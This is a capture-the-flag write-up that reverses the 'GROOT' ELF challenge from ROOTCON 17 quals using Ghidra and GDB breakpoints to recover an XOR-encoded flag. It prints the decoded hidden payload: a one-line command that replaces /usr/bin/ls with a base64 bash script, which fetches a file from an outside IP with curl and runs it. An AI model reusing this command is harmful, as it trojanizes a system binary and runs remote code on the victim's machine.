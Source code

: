 # [BinForCry] GROOT - 100 Pts.

  
We’re given with this file.  
![lol it didn't load](https://altelus1.github.io/writeups/ctf/rootcon17quals/images/groot_1.png)  
Checking out the file, it is an ELF file.

  

![lol it didn't load](https://altelus1.github.io/writeups/ctf/rootcon17quals/images/groot_2.png)  

We did the reverse engineering on [Remnux](https://remnux.org/).

  
First off, we fired up Ghidra and decompile the ELF. After entering the main method, we noticed a function that’s consistently called.

  
![lol it didn't load](https://altelus1.github.io/writeups/ctf/rootcon17quals/images/groot_3.png)

  
Looking at the decompiled function, it seems to be doing an encryption machanism, albeit a basic one (just XOR). Also notice that the result is being stored on `param_3` which means the RDX value. Therefore, we have to note the address of RDX before and after the function has been called.

  
![lol it didn't load](https://altelus1.github.io/writeups/ctf/rootcon17quals/images/groot_4.png)

  
We can open up GEF-GDB and set a break point each time the function is called and then analyze arguments and also the output once we step over the function.

  
First, we have to get the main address after PIE is applied. In my environment, it is `0x5555555552dc`  
![lol it didn't load](https://altelus1.github.io/writeups/ctf/rootcon17quals/images/groot_5.png)

  
We can then show the instructions starting from the main address  
![lol it didn't load](https://altelus1.github.io/writeups/ctf/rootcon17quals/images/groot_6.png)  
![lol it didn't load](https://altelus1.github.io/writeups/ctf/rootcon17quals/images/groot_7.png)  
The list of breakpoints to use are:

- 0x555555555364
- 0x5555555553db
- 0x5555555554b7

  
There are more addresses that call that function but these are the only ones that we need.  
Breaking at 0x555555555364, we mark the function arguments and we need to keep an eye on RDX register value from what we understod on the function. XOR result is being stored in there after we step over 1 instruction after the breakpoint. This will be done everytime we hit the breakpoint  
![lol it didn't load](https://altelus1.github.io/writeups/ctf/rootcon17quals/images/groot_8.png)  
After stepping over, we got the first part of the flag `RC17{x0x0_`. Nice!  
![lol it didn't load](https://altelus1.github.io/writeups/ctf/rootcon17quals/images/groot_9.png)  
Next important breakpoint is at 0x5555555553db. The resulting XOR operation is not interesting:  
![lol it didn't load](https://altelus1.github.io/writeups/ctf/rootcon17quals/images/groot_10.png)  
But we want to set the `geteuid` result to 0 on the `test eax, eax` otherwise the process would have stopped. That means we have to set the RAX to 0.  
![lol it didn't load](https://altelus1.github.io/writeups/ctf/rootcon17quals/images/groot_11.png)  
We go to breakpoint 0x5555555554b7 and we note the RDX address again (0x00007fffffffce40).  
![lol it didn't load](https://altelus1.github.io/writeups/ctf/rootcon17quals/images/groot_12.png)  
After stepping over, we found an interesting decoded result:  
![lol it didn't load](https://altelus1.github.io/writeups/ctf/rootcon17quals/images/groot_13.png)  
`cp /usr/bin/ls /usr/bin/lls && cp /bin/ls /bin/lls && echo -n IyEvYmluL2Jhc2gKCiMgcGFydCAyIC0geDByMW5nXzFzX2x5ZgooY3VybCAtcyBodHRwOi8vMTc4LjEyOC4yMy4xNDEvMGJlOTIxOTAvYWJjIC1vIC91c3IvYmluL3gwcjFuZ18xc19seWYgJiYgY2htb2QgK3ggL3Vzci9iaW4veDByMW5nXzFzX2x5ZiAmJiAvdXNyL2Jpbi94MHIxbmdfMXNfbHlmIDI+L2Rldi9udWxsKSAmCgovdXNyL2Jpbi9sbHMgJEAK | base64 -d > /usr/bin/ls && chmod +x /usr/bin/ls;`. The base64 blob is actually a bash script. It would have bricked your system if you executed this as root. And also, it contains the part 2 of the flag!  
![lol it didn't load](https://altelus1.github.io/writeups/ctf/rootcon17quals/images/groot_14.png)  
The flag for now is `RC17{x0x0_x0r1ng_1s_lyf`.  
For the last part of the flag. we executed the whole thing as root anyway and we got this. (Of course we didn’t forget to take a snapshot of the remnux VM)  
![lol it didn't load](https://altelus1.github.io/writeups/ctf/rootcon17quals/images/groot_15.png)  
The flag has been completed: `RC17{x0x0_X0r1ng_1s_lyf_thx4ex3cut1ngth1s}`
